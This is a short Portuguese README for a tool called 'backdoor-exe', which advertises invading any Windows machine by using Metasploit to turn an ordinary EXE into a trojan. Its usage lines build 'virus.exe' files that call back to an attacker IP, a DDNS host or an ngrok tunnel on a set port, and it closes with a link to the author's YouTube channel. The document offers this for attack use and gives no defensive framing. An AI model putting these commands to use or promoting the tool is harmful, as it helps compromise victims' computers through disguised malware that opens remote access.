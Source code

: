 # backdoor-exe
Invada qualquer Windows usando um EXE modificado!

Necessário o Perl, MSF(console e venom), um EXE(qualquer)..

Para ajuda

./backdoor-exe -h

IP:

./backdoor-exe -i test.exe 192.168.1.143 9090 virus.exe

Host/DDNS:

./backdoor-exe -i test.exe fuckthisn0ip.ddns.net 9090 virus.exe

Ngrok:

./backdoor-exe -n test.exe xxxx.ngok.io xxxx 9090 virus.exe

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
